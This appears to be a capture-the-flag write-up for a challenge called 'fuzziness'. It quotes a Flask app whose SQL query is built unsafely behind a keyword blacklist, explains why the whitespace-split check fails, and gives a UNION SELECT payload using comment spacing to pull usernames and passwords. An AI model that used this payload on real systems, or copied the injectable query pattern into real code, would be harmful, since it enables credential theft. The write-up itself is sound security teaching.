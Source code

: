 # fuzziness

## problem

I'm tired of SQLi - I'll just keep checking and checking and checking, until I'm certain there are no more evil words.

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/7f1e6633-8882-4023-99df-bf3e288e2b9c)

```py
#!/usr/bin/env python3

from sqlite3 import *
from os import system
from flask import Flask, request, Response
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
app = Flask(__name__)
limiter = Limiter(
    get_remote_address,
    app=app,
    default_limits=["50000 per hour"],
    storage_uri="memory://",
)

RESERVED = sorted([i.lower().strip() for i in open("sqlite_reserved.txt")], key=len, reverse=True)

def check(s):
    return any(keyword in s.split() for keyword in RESERVED)

def sanitize(s):
    s = s.lower()
    while check(s):
        for keyword in RESERVED:
            s = s.replace(keyword, '')
    return s

@app.route('/', methods=["GET"])
@limiter.limit("2/second")
def index():
    if 'lastname' not in request.args:
        return open("index.html").read()
    else:
        con = connect("users.db")
        cur = con.cursor()
        lastname = sanitize(request.args['lastname'])
        res = cur.execute(f"SELECT * from authors where last LIKE '%{lastname}%'")
        ret = '<table>'
        ret += '<tr><th>First Name</th> <th>Middle Name</th> <th>Last Name</th></tr>'
        for row in res:
            ret += '<tr>'
            for entry in row:
                ret += f"<td>{entry}</td>"
            ret += '</tr>'
        ret += '</table>'
        return ret

@app.route('/source')
@limiter.limit("2/second")
def source():
    return Response(open(__file__).read(), mimetype="text/plain")

@app.route('/blacklist')
@limiter.limit("2/second")
def blacklist():
    return Response(open("sqlite_reserved.txt").read(), mimetype="text/plain")

if __name__ == "__main__":
    con = connect(":memory:")
    cur = con.cursor()
    cur.execute('''
        CREATE TABLE authors(first, middle, last)
    ''')
    cur.execute('''
        INSERT INTO authors VALUES
            ("Tobias", '', "Smollett"),
            ("William", '', "Shakespeare"),
            ("Edward", "Morgan", "Forster"),
            ("George", "", "Eliot"),
            ("Louisa", "May", "Alcott"),
            ("Lucy", "Maud", "Montgomery"),
            ("Frank", "T.", "Merill"),
            ("Herman", "", "Melville"),
            ("Alexandre", "", "Dumas"),
            ("Elizabeth", "", "Von Arnim")
    ''')
    cur.execute('''
        CREATE TABLE users(username, passwords)
    ''')
    cur.execute(f'''
        INSERT INTO users VALUES
            ("admin", "{open("flag.txt").read()}")
    ''')
    con.commit()
    cur.close()
    con.close()

    app.run('0.0.0.0', 14002)
```

## solution

the issue is in the check function

```py
def check(s):
    return any(keyword in s.split() for keyword in RESERVED)
```

we check if the keyword is in the split version of the string, and by default, the split string is split by spaces, which means that we can remove some of the spaces to get SQLi

the payload `' UNION/**/SELECT null,username,passwords /**/FROM users; --` seems to do the trick because the full command is `SELECT * from authors where last LIKE '%' union/**/select null,username,passwords /**/from users; --%'`

this works because the split version of our payload is `["'", 'UNION/**/SELECT', 'null,username,passwords', '/**/FROM', 'users;', '--']`, and for example, the reserved keyword `SELECT` is not inside of the list, even though `UNION/**/SELECT` is inside of the list.
